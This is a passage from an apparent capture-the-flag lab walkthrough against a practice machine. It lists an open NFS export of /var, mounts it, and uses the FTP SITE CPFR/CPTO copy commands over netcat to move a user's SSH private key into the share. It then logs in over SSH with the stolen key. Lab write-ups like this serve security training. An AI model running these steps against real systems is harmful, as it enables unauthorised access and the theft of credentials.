 We can see many `nfs` and `mountd` services, let's see what's mounted.

```bash
❯ showmount -e 10.10.74.241

Export list for 10.10.74.241:
/var *
```

There is a share show the whole content of the `/var` folder, so let's mount it locally.

```bash
❯ mkdir KenobiNFS
❯ mount -t nfs 10.10.74.241:/var KenobiNFS
```

Once mounted we can now move the kenobi `id_rsa` to the `/var/tmp` folder and then access it via the mounted file system.

Access the ftp service via `netcat`.

```bash
❯ nc 10.10.74.241 21
```

Then in order to copy  the `id_rsa` to the `/var/tmp`, we can use the commands `SITE CPFR` and `SITE CPTO`.

```bash
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Once copied, we should be able to see it in our mounted share.

```bash
❯ ls -l
drwx------ root   root   4.0 KB Tue Feb 25 20:14:08 2025  systemd-private-118fe101f90f4e1087902d43b982cdf3-systemd-timesyncd.service-cvdfpY
drwx------ root   root   4.0 KB Wed Sep  4 14:09:48 2019  systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
drwx------ root   root   4.0 KB Wed Sep  4 14:28:49 2019  systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
drwx------ root   root   4.0 KB Wed Sep  4 10:49:43 2019  systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
.rw-r--r-- ne4rby ne4rby 1.6 KB Tue Feb 25 20:34:16 2025 󰷖 id_rsa
```

Once at this point, let's log in as `kenobi` with private key.

```bash
❯ cp KenobiNFS/tmp/id_rsa .
❯ chmod 600 id_rsa
❯ ssh -i id_rsa kenobi@10.10.74.241
The authenticity of host '10.10.74.241 (10.10.74.241)' can't be established.
ED25519 key fingerprint is SHA256:GXu1mgqL0Wk2ZHPmEUVIS0hvusx4hk33iTcwNKPktFw.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:15: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.74.241' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


```